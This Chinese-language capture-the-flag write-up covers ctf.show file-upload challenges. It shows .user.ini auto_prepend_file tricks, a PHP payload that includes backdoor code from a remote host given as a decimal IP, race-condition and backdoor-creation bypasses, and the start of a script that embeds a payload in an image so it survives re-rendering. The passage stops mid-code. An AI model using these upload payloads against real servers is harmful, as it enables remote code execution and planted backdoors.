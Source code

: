 ```plain
相当于：
.user.ini auto_prepend_file=png，包含了png
png 里面包含远程文件，index.txt里面含有后门代码
构造png上传内容：png <?=include'http://794750069/'>
```

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721225995745-3bfb62b5-7118-44c9-b461-60a866260c18.png)

然后访问upload，查看flag就可以。但是一直错误，应该是环境问题。

163

```plain
先上传.user.ini：auto_prepend_file=png
然后上传png：<?=include'http://794750069/'>
发现png上传成功，但是访问404，已经被删除了

绕过：
1.可以用条件竞争，在没有删除之前就访问
2.写创建性代码，访问让他创建一个新的后门文件
3.直接在.user.ini文件包含远程文件

上传地址：upload/png
没上传之前就一直访问upload/png post：代码（利用PHP创建一个后门文件）
过滤 . () {} ;等 同时文件被删除
直接利用.user.ini包含远程
auto_prepend_file=http://794750069/
```

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721225995849-d1b49285-dd36-45f2-9ff7-da24b72968a0.png)

访问upload

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721225996017-d65922a1-af21-408d-b5c8-cfd27d444c7f.png)

164

```plain
上传一个正常的图片，可以查看，但是地址跟之前不一样，
图片地址：http://c3ca6405-8f2e-4f35-a6ca-e90c23043ec4.challenge.ctf.show/download.php?image=1142da4a83749d95534cc71f2b39ade4.png
处理图片是download.php，在图片中只要有后门代码就可以进行执行
把图片下载下来，对比上传之前跟上传之后的图片大小，字节数，编码等。
```

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721225996536-e7c6a777-958e-466c-ac3f-cf141dbcb71b.png)

```plain
一样的图片，上传和没上传不一样了。这就是图片的二次渲染：https://blog.csdn.net/qq_40800734/article/details/105920149
对原图片进行增加，删除或者修改。就比如：在图片上写上后门代码，但是上传之后，经过图片的二次渲染，图片里面的后门代码就可以进行了删除。
如果是手工的话，就需要放后门代码上写上重复区域，就是没有删除（上传之后没有删除）代码里。但是手动能不能行还是要靠运气的。
用工具来进行生成：
代码：
<?php
$p = array(0xa3, 0x9f, 0x67, 0xf7, 0x0e, 0x93, 0x1b, 0x23,
           0xbe, 0x2c, 0x8a, 0xd0, 0x80, 0xf9, 0xe1, 0xae,
           0x22, 0xf6, 0xd9, 0x43, 0x5d, 0xfb, 0xae, 0xcc,
           0x5a, 0x01, 0xdc, 0x5a, 0x01, 0xdc, 0xa3, 0x9f,
           0x67, 0xa5, 0xbe, 0x5f, 0x76, 0x74, 0x5a, 0x4c,
           0xa1, 0x3f, 0x7a, 0xbf, 0x30, 0x6b, 0x88, 0x2d,
           0x60, 0x65, 0x7d, 0x52, 0x9d, 0xad, 0x88, 0xa1,
           0x66, 0x44, 0x50, 0x33);



$img = imagecreatetruecolor(32, 32);
```